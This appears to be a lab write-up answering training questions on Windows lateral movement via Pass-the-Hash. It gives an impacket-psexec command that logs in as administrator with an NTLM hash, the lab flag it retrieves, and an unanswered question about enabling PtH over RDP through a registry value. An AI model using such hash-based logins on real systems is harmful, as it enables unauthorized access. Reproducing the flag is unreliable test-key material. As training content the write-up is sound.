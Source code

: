 <figure><img src=".gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>

## Windows Lateral Movement

### Pass the hash (PtH)

#### Questions

**Access the target machine using any Pass-the-Hash tool. Submit the contents of the file located at C:\pth.txt.**

`impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453`

<mark style="color:green;">**G3t\_4CCE\$$\_V1@\_PTH**</mark>



**Try to connect via RDP using the Administrator hash. What is the name of the registry value that must be set to 0 for PTH over RDP to work? Change the registry key value and connect using the hash with RDP. Submit the name of the registry value name as the answer.**

<figure><img src=".gitbook/assets/image (174).png" alt=""><figcaption></figcaption></figure>

